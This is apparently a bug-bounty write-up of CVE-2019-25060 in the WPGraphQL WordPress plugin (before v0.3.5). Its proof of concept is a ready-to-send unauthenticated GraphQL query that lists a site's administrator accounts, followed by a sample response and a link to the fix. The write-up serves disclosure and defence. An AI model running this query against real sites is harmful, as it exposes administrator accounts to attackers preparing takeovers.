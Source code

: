 ```yaml
---
tags: bugbounty
category: BugBounty
---
```


# Description

The WPGraphQL plugin (v < 0.3.5) doesn't properly restrict access to information about other users' roles on the affected wordpress site. Because of this, a remote attacker could forge a GraphQL query to retrieve the account roles of every user on the site. This has been assigned CVE-2019-25060.

# Proof of Concept

1. Make this GraphQL call as an unauthenticated user on any wordpress site using this plugin:
    ```
    query getUsers{
        users(where:{role:ADMINISTRATOR}){
            edges{
                node{
                    userId
                    name
                }
            }
        }
    }
    ```
    The response will be:

    ```json
    {
    "data": {
        "users": {
        "edges": [
            {
            "node": {
                "userId": 1,
                "name": "root"
            }
            }
        ]
        }
    }
    }
    ```
    An unauthenticated user is able to determine the users with admin role on the wordpress site. This issue has been fixed at [https://github.com/wp-graphql/wp-graphql/pull/900](https://github.com/wp-graphql/wp-graphql/pull/900).